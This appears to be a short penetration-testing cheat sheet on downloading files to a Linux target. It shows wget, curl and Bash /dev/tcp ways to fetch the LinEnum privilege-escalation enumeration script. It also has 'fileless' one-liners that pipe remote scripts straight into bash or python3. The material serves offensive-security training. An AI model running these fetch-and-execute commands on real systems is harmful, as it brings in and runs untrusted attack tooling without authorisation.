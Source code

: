 ```yaml
---
icon: linux
---
```


# Linux Web Download

## Wget File Download

```shell
clue@machine[/]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## cURL File Download

```shell
clue@machine[/]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Bash File Download (/dev/tcp)

There may also be situations where none of the well-known file transfer tools are available. As long as **Bash version 2.04 or greater** is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for _simple file downloads_.

**Connect to the target webserver:**

```shell
clue@machine[/]$ exec 3<>/dev/tcp/10.10.10.32/80
```

**Make a HTTP GET request:**

```shell
clue@machine[/]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Print the response:**

```shell
clue@machine[/]$ cat <&3
```

## Wget Fileless Download

```shell
clue@machine[/]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## cURL Fileless Download

```shell
clue@machine[/]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
